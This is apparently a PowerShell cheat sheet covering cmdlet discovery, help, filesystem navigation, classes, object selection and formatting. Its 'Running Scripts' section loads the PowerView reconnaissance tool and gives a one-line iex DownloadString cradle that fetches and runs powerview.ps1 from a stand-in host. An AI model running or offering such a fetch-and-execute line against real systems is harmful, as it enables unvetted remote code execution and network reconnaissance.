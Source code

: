 ## Basics
* Search Commands
	```powershell
	#list all powershell cmdlets, functions and alias
	Get-Command
	
	#search ommands that starts with get
	Get-Command get*
	
	#search commands that ends with object
	Get-Command *object
	
	#search command for a verb
	Get-Command -Verb Get
	
	#search command for a noun
	Get-Command -Noun Object
	
	```
* Help
	```powershell
	#get help for the command New-Object
	Get-Help New-Object
	
	#List Examples for New-Object
	Get-Help New-Object -Example
	
	#get detailed help for New-Object 
	Get-Help New-Object -Detailed
	
	#get online help for the command
	Get-Help New-Object -Online
	```
* Alias
	```powershell
	# Print all alias
	Get-Alias
	
	#search alias
	Get-Alias search_term
	```
* Variables
	```powershell
	#Storging values/object/data in variable
	$myobj = Get-Childitem
	$myobj = Get-Location
	$myobj = "Doctor Dragon"
	```
## Filesystem
* Filesystem Navigation
	```powershell
	#list files and directories; ls
	Get-Childitem
	
	#change directory; cd
	Set-Location
	
	#print current working directory; pwd
	Get-Location
	
	#print content of the file; cat
	Get-Content filename
	```
## Classes and Objects
* Creating a Class in Powershell
	```powershell
	class human{
		[string]$name
		[int]$age
		[string]greet(){
			return "$($this.name) is $($this.age) years old"
		}
	}
	```
* Creating objects from a class
	```powershell
	# creating instance of a class using accelerator
	$drdragon = [human]::new() 
	$myname = [System.String]::new("Hello World")
	
	# creating a instance of a class using cmdlet
	$drdragon = New-Object -TypeName human
	$myname = New-Object System.String("Hello World")
	```
* List Properties and Methods of Objects
	```powershell
	# get properties and methods for the object
	$myobj | Get-Member
	Get-Childitem | Get-Member
	```
* Accessing Properties and methods of object
	```powershell
	# Acess property for the object
	$myobj.Length
	(New-Object System.String("drdragon")).Length
	
	# execute methods for the object
	$myobj.Remove(1)
	(New-Object System.String("drdragon")).Remove(1)
	```
* Selecting Objects
	```powershell
	# print specific property of an object
	Get-Childitem | Select-Object -Property Name,Parent
	$myobj | Select-Object -Property Name
	
	# print all property of an object
	$myobject | Select-Object -Property *

	# Alisas for Select-Ojbect
	Get-ChildItem | select Name, Parent
	```
* Filtering Objects
	```powershell
	# filter output if object's Name property is equal to "etc"
	Get-Childitem | Where-Object {$_.Name -eq "etc"}
	```
## Format Object
* Format-List
	```powershell
	# Prints Properties of an object in a key-value pair format
	Get-Childitem | Format-List
	
	# Prints secific property
	Get-Childitem | Format-List -Property Name,Parent
	```
* Format-Table
	```powershell
	# Default way of printing objects
	# Prints properties of object in a table format
	Get-Childitem | Format-Table
	
	# Prints secific property
	Get-Childitem | Format-Table -Property Name,Parent
	```
## Running Scripts
- Local Scripts
```powershell
# dot source
. .\Tools\Powerview.ps1

# Using cmdlet
Import-Module C:\Tools\Powerview.ps1

# Get commands imported by a module
Get-Command -Module <ModuleName>

```
- Remote Scripts
```powershell
iex (New-Ojbect Net.webClient).DownloadString('https://server.com/powerview.ps1')
```

# Language Mode
```powershell
# Check current powershell session language mode
$ExecutionContext.SessionState.LanguageMode
```